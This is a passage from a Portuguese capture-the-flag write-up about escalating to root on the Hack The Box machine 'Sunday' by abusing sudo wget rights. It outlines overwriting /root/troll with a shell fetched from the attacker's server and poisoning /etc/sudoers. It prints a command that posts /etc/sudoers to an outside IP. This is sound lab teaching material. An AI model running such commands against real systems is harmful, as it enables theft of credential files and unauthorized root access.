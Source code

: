 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sunday/S_sammy.png)

# Escalação para Root

Uma vez logado como sammy na máquina, verificamos as permissões de `sudo -l` dele

Verificamos que sammy pode executar wget como se root fosse

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sunday/S_sammy1.png)

## Primeiro modo - /root/troll

Vou explorar duas aqui, uma sabendo que o sammy executa o /root/troll como root, vou executar o /root/troll que eu criei na minha Kali com o usuário sunny, e esse troll será um shell, pq com o usuário sammy vou que pode dar wget como se root vou baixar ela pra máquina Sunday

Ta meio complexa a explicação mas vai ficar simples agora que vou demonstrar

1º Criar o arquivo troll na minha Kali

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sunday/S_troll.png)

2º Levantar um servidor Python HTTP

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sunday/S_troll1.png)

3º Com o usuário SAMMY dou um wget nesse troll e jogo ele para /root/troll

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sunday/S_troll2.png)

4º Com o usuário SUNNY executo `sudo /root/troll` (Tem que ser bem rápido pq ele retorno o arquivo troll original)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sunday/S_troll2.png)

## Segundo modo - wget no /etc/shadow

Como temos wget de root na máquina podemos fazer diversas coisas, uma delas é ler o arquivo shadow e tentar quebrar o hash do root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sunday/S_shadow.png)

Outra delas é alterarmos o arquivo /etc/sudoers por exemplo, que é o que será feito aqui

Iremos "envenenar" o /etc/sudoers original com um alterado, dando permissão total de root para o usuário Sammy, que nós estamos logado

1º Passo é baixar o arquivo sudoers pra verificar como está a estrutura dele

> sudo wget --post-file=/etc/sudoers 10.10.16.119

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sunday/S_sud.png)
